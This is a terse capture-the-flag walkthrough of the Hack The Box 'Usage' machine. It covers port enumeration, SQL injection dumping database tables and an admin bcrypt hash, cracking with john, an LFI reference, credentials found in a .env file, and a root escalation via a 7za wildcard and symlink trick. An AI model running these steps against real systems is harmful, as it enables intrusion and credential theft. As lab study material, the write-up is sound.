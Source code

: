 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/usage/"}
---
```


# Enum
## Ports
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
##  Users
admin:whatever1
### system
dash
xander:`3nc0d3d_pa$$w0rd`
##  Passwords
whatever1
`3nc0d3d_pa$$w0rd`
## OS
`Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64`
Ubuntu 22.04.4 LTS \n \l
## 22
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a0f8fdd304b807a063dd37dfd7eeca78 (ECDSA)
|_  256 bd22f5287727fb65baf6fd2f10c7828f (ED25519)
## 80
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|http-title: Daily Blogs
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
PHP/8.1.2-1ubuntu2.14
|Laravel version|10.18.0|

/MVwt4IDP.php4: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
### Cookie
Cookie XSRF-TOKEN created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
### http://usage.htb/forget-password
Create an account and try to recover the passwd
sqli is posible
# Exploit
## Sqli
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

Database: usage_blog
### Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| name           | varchar(255) |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) 
Database: usage_blog
Table: admin_users
[1 entry]
+----------+
| username |
+----------+
| admin    |
+----------+
| password                                                     |
+--------------------------------------------------------------+
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

### Table: users
[8 columns]
+-------------------+-----------------+
| Column            | Type            |
+-------------------+-----------------+
| created_at        | timestamp       |
| email             | varchar(255)    |
| email_verified_at | timestamp       |
| id                | bigint unsigned |
| name              | varchar(255)    |
| password          | varchar(255)    |
| remember_token    | varchar(100)    |
| updated_at        | timestamp       |
+-------------------+-----------------+
Table: users
[9 entries]
+----------------------+
#### email
+----------------------+
| asd@asd.asd          |
| karkor23@hotmail.com |
| n3vada@usage.htb     |
| raj@raj.com          |
| raj@usage.htb        |
| test@arkane.org      |
| test@test.com        |
| test@tet.com         |
| testtester@test.com  |
+----------------------+
## Crack the hash
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`
`john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash`
whatever1
login in the admin page
## Get access
[LFI]
https://flyd.uk/post/cve-2023-24249/
# Escalation
-rwxrwxr-x 1 dash dash 1176 Aug 23  2023 /var/www/html/project_admin/.env
DB_CONNECTION=mysql
1351   │ DB_HOST=127.0.0.1
1352   │ DB_PORT=3306
1353   │ DB_DATABASE=usage_blog
1354   │ DB_USERNAME=staff
1355   │ DB_PASSWORD=s3cr3t_c0d3d_1uth
##  Get access like xander
Using password found in ``**.monitrc**``
## Get root
sudo -l
/usr/bin/usage_management
`ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped`

### strings /usr/bin/usage_management
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql

#### 7z wildcard spare
[[Wildcard spare#7z\|Wildcard spare#7z]]
```sh
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management #Opcion 1 (Project Backup)
```